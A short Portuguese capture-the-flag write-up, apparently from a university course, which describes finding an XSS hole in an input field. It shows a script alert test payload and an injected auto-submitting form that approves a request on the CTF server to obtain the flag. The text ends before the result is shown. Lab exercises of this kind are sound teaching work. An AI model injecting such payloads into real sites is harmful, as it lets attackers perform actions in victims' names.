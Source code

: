 Para realizar este ctf, teremos de trabalhar a partir desta página:

![Alt text](image.png)

A partir dessa página, apercebemo-nos que poderíamos testar se input que aí pediam era filtrado ou não. Para testar essa condição, decidimos criar uma função `alert()`, da seguinte maneira:

```
<script>alert("Teste");</script>
```

Obtendo este resultado:

![Alt text](image-5.png)

A seguir, colocamos este script...

```
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/%7Binserir ID do pedido}/approve" role="form"><div class="submit">  <input type="submit" id="giveflag" value="Give the flag"></div></form><script>document.getElementById("giveflag").click();</script>
```

...no input da página e submetemos assim.

O resultado que nos dará será este:


